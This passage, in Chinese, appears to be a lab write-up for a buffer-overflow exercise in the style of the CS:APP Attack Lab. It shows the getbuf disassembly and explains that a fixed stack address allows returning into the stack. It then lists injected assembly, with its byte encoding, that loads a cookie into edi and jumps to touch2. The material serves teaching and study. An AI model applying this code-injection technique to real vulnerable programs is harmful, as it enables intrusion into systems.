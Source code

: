修改返回地址为栈部分, Gets输入的数据为汇编代码(用字节表示), 则返回后可以转到栈中执行代码.

``` assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

执行完0x4017a8, 此时`R[rsp]=0x5561dc78`. 由于没有栈随机等机制, 可以确定每次执行完0x4017a8时rsp的值都是一样的.

![image-20221228202404578](README.assets/image-20221228202404578.png)

攻击代码如下:

``` assembly
mov $0x59b997fa, %edi	# 修改edi的值,edi保存第一个参数的值
pushq $0x4017ec			# 将touch2函数的首地址压栈
retq					# 从栈顶取出地址,返回
```

用objdump得到字节表示

``` assembly
attack_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	push   $0x4017ec
   a:	c3                   	ret    
```
